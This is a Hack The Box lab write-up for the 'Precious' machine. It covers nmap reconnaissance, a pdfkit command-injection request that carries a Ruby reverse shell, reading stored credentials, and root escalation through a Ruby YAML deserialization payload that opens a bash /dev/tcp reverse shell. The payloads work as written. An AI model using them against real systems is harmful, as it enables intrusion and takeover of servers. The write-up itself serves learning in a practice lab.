 ```yaml
---
layout: single
title: Nessus
date: 2023-03-17
classes: wide
tags:
    - Ruby
    - Vulnerability
    - Scanning
    - HTB
    - Linux
---
```


Information Gathering and Vulnerability Scanning
--------------

Nmap:
```bash
$ nmap -sC -sV -A 10.10.11.189 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 12:30 EDT
Nmap scan report for 10.10.11.189
Host is up (0.037s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.31 seconds
```

---
Get headers from burpsuite and got the server software and version: **Phusion Passenger(R) 6.0.15**
```r
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Wed, 29 Mar 2023 17:11:00 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
Content-Length: 506
```
ExploitDB and CVE details does not show any vuln related. Still, it's valuable info!

---
Headers look weird to:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

why image?

---
htmltopdf 0.12.6 is the plugin for ruby for the pdf
https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently

---
webserver is running `pdfkit v0.8.6` for the html to pdf
https://github.com/shamo0/PDFkit-CMD-Injection
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795


Attack & Exploits
--------------
PDFkit-CMD-Injection looks really good.

```r
POST / HTTP/1.1
Host: precious.htb
Content-Length: 144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://precious.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://precious.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


url=http%3a//10.10.14.101%3a4040/%3fname%3d%2520`+ruby+-rsocket+-e'spawn("bash",[%3ain,%3aout,%3aerr]%3d>TCPSocket.new("10.10.14.101",4040))'`
```

```bash
python -m http.server 80
nc -lvnp 4040 

cd /home/ruby
cat .bundle/config
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:***********" 

su henry
Password: ***********
id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
cd
cat user.txt
**************
```

Priv escalation
--------------

Run common enum and found a custom script for update dependencies:
```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Found this about priv esc in ruby:
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/
```bash
henry@precious:~$ cd /home/henry/
henry@precious:~$ vi dependencies.yml 
```
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.136/4040 0>&1'"
         method_id: :resolve
```

Set up netcat listener:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4040
listening on [any] 4040 ...
``` 

And finally run the script:
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```




Analysis
--------------

- Outdate version on webserver is running `pdfkit v0.8.6` for the html to pdf causes a RCE for ruby user :(
- Then a plain text stored creds lead into henry user being affected
- Finally, priv esc:
    - sudo admin rights for a custom script? that's a risk
    - conbined that the scrip is not using absolute path leads into root running any dependecies.yml that is provided

Really funny box!

~ Have Fun! ~

